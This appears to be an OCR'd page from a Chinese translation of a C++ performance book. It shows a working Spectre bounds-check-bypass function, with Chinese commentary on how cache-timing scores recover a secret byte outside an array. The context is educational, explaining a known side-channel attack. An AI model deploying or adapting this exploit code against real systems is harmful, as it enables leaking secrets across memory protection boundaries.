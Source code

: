 下面的函數攻擊數據數組外的單個字節:

\hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
char spectre_attack(const char* data,
                    size_t size, size_t evil_index) {
	constexpr const size_t num_val = 256;
	struct timing_element { char s[1024]; };
	static timing_element timing_array[num_val];
	::memset(timing_array, 1, sizeof(timing_array));
	std::array<long, num_val> latencies = {};
	std::array<int, num_val> scores = {};
	size_t i1 = 0, i2 = 0; // Two highest scores
	std::unique_ptr<size_t> data_size(new size_t(size));
	constexpr const size_t n_iter = 1000;
	for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
		for (size_t i = 0; i < num_val; ++i) {
			_mm_clflush(timing_array + i); // Un-cache the array
		}
		const size_t ok_index = i_iter % size;
		constexpr const size_t n_read = 100;
		for (size_t i_read = 0; i_read < n_read; ++i_read) {
			_mm_clflush(&*data_size);
			for (volatile int z = 0; z < 1000; ++z) {} // Delay
			const size_t i = (i_read & 0xf) ? ok_index :
			evil_index;
			if (i < *data_size) {
				access_memory(timing_array + data[i]);
			}
		}
		for (size_t i = 0; i < num_val; ++i) {
			const size_t i_rand = (i*167 + 13) & 0xff;
			// Randomized
			const timing_element* const p = timing_array +
			i_rand;
			const long t0 = get_time();
			access_memory(p);
			latencies[i_rand] = get_time() - t0;
		}
		score_latencies(latencies, scores, ok_index);
		std::tie(i1, i2) = best_scores(scores);
		constexpr const int threshold1 = 2, threshold2 = 100;
		if (scores[i1] >
		scores[i2]*threshold1 + threshold2) return i1;
	}
	return i1;
}
\end{lstlisting}

對於計時數組中的每個元素，我們將計算一個分數，即該元素訪問速度最快的次數。還跟蹤速度第二快的元素，它應該是常規的、訪問較慢的數組元素之一。在多次迭代中，會得到我們預期的結果。但在實際中，在某些時候必須放棄。

當最佳和次最佳的分數之間差距夠大，就知道已經檢測到了計時數組中的快速元素，即由祕密字節的值索引的元素(儘管可以嘗試使用迄今為止最好的猜測，如果到了最大迭代次數，而沒有得到期望的結果，攻擊就失敗了)。

有兩個工具函數可用來計算延遲的平均分數，並找出兩個最佳分數。只要能給出正確的結果，就可以以任何方式實現它們。第一個函數計算平均延遲，並增加延時低於平均值的計時元素的分數(必須通過實驗調整，但不是很敏感)。注意，希望一個數組元素的訪問速度更快，所以可以在計算平均延遲時跳過(理想情況下，一個元素的延遲要比其他元素低得多，而其他元素的延遲都相同):

